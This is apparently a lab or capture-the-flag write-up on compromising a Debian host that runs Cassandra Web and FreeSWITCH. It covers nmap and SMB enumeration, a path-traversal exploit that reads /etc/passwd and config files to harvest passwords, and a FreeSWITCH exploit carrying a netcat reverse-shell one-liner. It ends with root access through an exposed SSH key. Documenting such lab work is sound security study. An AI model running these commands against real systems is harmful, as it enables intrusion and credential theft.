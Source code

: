 #Pwned! 
```
192.168.206.240
```
## Enumeration
## Nmap

As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.206.240 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE          REASON         VERSION
22/tcp   open  ssh              syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+I
CuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp   open  http             syn-ack ttl 61 Apache httpd 2.4.38
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
139/tcp  open  netbios-ssn      syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn      syn-ack ttl 61 Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3000/tcp open  http             syn-ack ttl 61 Thin httpd
|_http-server-header: thin
|_http-title: Cassandra Web
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 68089FD7828CD453456756FE6E7C4FD8
8021/tcp open  freeswitch-event syn-ack ttl 61 FreeSWITCH mod_event_socket
```

Looks like our target system is running a Debian 10.

## SMB
Port 139 - Samba smbd 3.X - 4.X
Port 445 - Samba smbd 4.9.5
```
nxc smb 192.168.229.240 -u '' -p '' --shares
```
```
print$                          Printer Drivers
backup          READ            Backup web directory shares
IPC$                            IPC Service (Samba 4.9.5-Debian)
```
PASS POL
```
nxc smb 192.168.229.240 -u '' -p '' --rid-brute 3000
```
hash.conf.xml
```
<remote name="Test1" host="10.0.0.10" port="8021" password="ClueCon" interval="1000" />
```
sofia.conf.xml
```
The rabbit hole goes deep.  This includes all the
profiles in the sip_profiles directory that is up
one level from this directory.
```
Interesting files
```
/etc/freeswitch/jingle_profiles/client.xml
/etc/freeswitch/jingle_profiles/server.xml
/etc/freeswitch/autoload_configs/hiredis.conf.xml
/etc/freeswitch/autoload_configs/hash.conf.xml
/etc/freeswitch/autoload_configs/switch.conf.xml
/etc/freeswitch/autoload_configs/event_socket.conf.xml
/usr/share/doc/cassandra/CQL.html
```
## HTTP 80
Apache httpd 2.4.38
forbidden

## HTTP 3000
cassandra web
version: thin httpd
DIRS
```
/hosts

[
  {
    "ip": "127.0.0.1",
    "id": "39c6f1e3-d798-44ce-b216-ce0f664fc0af",
    "datacenter": "datacenter1",
    "rack": "rack1",
    "release_version": "3.11.13",
    "status": "up"
  }
]

events
```
 there is an exploit for cassandra web
 https://www.exploit-db.com/exploits/49362
## 8021 freeswitch
FreeSWITCH mod_event_socket

# Exploitation
## Cassandra web
https://www.exploit-db.com/exploits/49362
if we follow the recommendations from the exploit we can see
```
python cass_web.py -p 3000 192.168.206.240 /etc/passwd
```
It works! We get users we already had
```
python cass_web.py -p 3000 192.168.206.240 /proc/self/cmdline
```
we get a new password!!
*SecondBiteTheApple330*
for user cassie
double checking files we downloaded from smb we see a new password
```
python cass_web.py -p 3000 192.168.206.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```
we get a password
```
<param name="password" value="StrongClueConEight021"/>
```

WE CANNOT SSH WITH ANY OF THE CREDENTIALS....
## FreeSWITCH
```
python freeswitch-exploit.py 192.168.206.240 'ls' StrongClueConEight021
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122110749.png?raw=true)
```
python freeswitch-exploit.py 192.168.206.240 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.190 80 >/tmp/f' StrongClueConEight021
```
we get a shell!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122111752.png?raw=true)
# PrivEsc
## Shell upgrade + basic info
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122111940.png?raw=true)

## Manual
we see a unusual path for an id_rsa
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122112202.png?raw=true)
we switch to user cassie with our password
```
su cassie
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122113444.png?raw=true)
with the id_rsa we saw earlier we can ssh into root
```
ssh root@localhost -i id_rsa
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122114103.png?raw=true)

the local.txt flag is a little bit hidden too
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122114317.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

